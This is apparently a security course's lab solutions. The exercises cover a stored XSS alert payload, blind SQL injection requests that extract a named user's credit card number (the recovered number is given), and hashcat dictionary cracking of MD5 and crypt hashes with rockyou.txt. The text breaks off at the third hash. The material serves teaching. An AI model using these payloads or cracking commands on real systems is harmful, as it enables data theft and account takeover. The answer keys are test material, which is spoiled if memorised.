 d 
### Exercise 1: XSS

There's XSS on comments. Note that only your last comment is shown and you restore the initial state by logging out. Could you exploit XSS and inject an alert to be shown when some of the "close the comment" button is pressed? To be more precise, you have to post a comment so that the page you get back has the modified behavior (and you can verify it by pressing the injected button to trigger the alert). The alert must show the message **Venom is a good boy!**.

```html
<script>
const closeButtons = document.getElementsByClassName('btn-close')
for (let i = 0; i < closeButtons.length; i++) {
closeButtons[i].onclick = function() { alert('Venom is a good boy!') }; 
}
</script>
```


### Exercise 2: python script

We can buy the decryption key for a cheap price. They also offer gift cards. We already charged a small amount of credit. Obtain that key for us!
You can always delete cookies and reload the page to restore the initial state. Provide a script.

##### Script simulation_decrypt_key.py in Lab folder


### Exercise 3: SQL injection

The following SQL injection statement: 

```sql
sql = f"select * from eshop_customer where username = '{username}' and password = '{password}'"
```

is used.
The session is authenticated if the above query returns a single user.
Steal the credit card number of brucewayne. Credit cards are stored in column *credit_card*.

1. Send a fuzzed request with the following body to find out the credit_card length:

```http
username=brucewayne' and length(credit_card) = 16 --&password=
```

2. Send a double fuzzed request with the following body to find out the single characters of credit_card:

```http
username=brucewayne' and substr(credit_card, 1, 1) = '1' --&password=
```

	substr(string, start, length) 
	
where start must be 1-16 (extremes included).

Fuzz on the start of the substr and the character (0-9).

Credit_card: 7114 0996 5635 3972


### Exercise 4: hashing

Use the rockyou.txt file to bruteforce the following password hashes (1 point each):
- c51e7a23a59ef8d76892f207b517eaf0 -> MD5 -> millie
- \$2a\$09$aJUc7jD71mV.KbWgyO2zweLWyUYoxHb8G/LsGXFgjfx9ynqusxUtO
- \$1$NOcJM.4s\$kIKttixk75d7wgMqDjyYK.

The first and the secondpasswords are among the first 1000 lines of rockyou.txt. The third password is also among the first 1000 lines of rockyou.txt, but it was modified to have the format *COD{original-password}*.


```bash
hashcat -m 0 -a 0 hash.txt wordlist.txt
```

means: 
- -m 0: hash type (0 stands for MD5)
- -a 0: attack mode (0 stands for dictionary)
- *hash.txt*: text file with the hash to decrypt 

```bash
head -n 1000 rockyou.txt > rockyou_top1000.txt
```

To take the first 1000 lines of rockyou.txt.

- First hash:
	use https://crackstation.net/ or with hashcat:
	
```bash
hashcat -m 0 -a 0 hash.txt rockyou_top1000.txt 
```


- Second hash:

```bash
hashcat -m 3200 -a 0 hash.txt rockyou_top1000.txt 
```

If it doesn't show the solution, add `--show` to the command.


- Third hash:

